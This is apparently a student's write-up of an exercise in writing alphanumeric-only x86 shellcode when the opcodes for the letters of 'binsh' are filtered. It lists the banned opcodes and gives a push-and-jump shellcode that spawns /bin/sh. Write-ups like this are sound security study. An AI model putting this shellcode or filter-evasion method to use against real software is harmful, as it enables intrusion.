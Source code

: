 # Write up: alnum (1-2)

## ymli (0016045)

## our task

Our task is writing a shell code with only Alphanumeric opcodes [1].


## filtering

In order to prevent students cheating with existing tools, Jaffxx filtered out 12 opcodes: "binsh" and "BINSH".

Lots of important instructions are unavailable now.

```
B inc edx
I dec ecx
N dec esi
S push ebx
H dec eax

i imul r32, [m32], i32
s jae i8
h push i32
```

## opcode encoder

After some studying on the internet, I found a Japanese hacker's note about encoding arbitrary x86 shell code in AlphaNumeric format [2].

It's a simplified version of Alpha3 [3].

I tried to read and understand the encoding and modified his scripts ... but failed to write a decoder for it ... gave up.

## think in pure alnum opcodes

After my freaking differential equations midterm, I tried to think in pure Alphanumeric assembly codes.

The same hacker had posted another note about it [4].

It started with a very simple shell code


```
        /* test.s */
        .intel_syntax noprefix
        .globl _start
_start:
        push 0x80cd0b42
        push 0x8de18953
        push 0x52e3896e
        push 0x69622f68
        push 0x68732f2f
        push 0x6852d231
        jmp esp
```
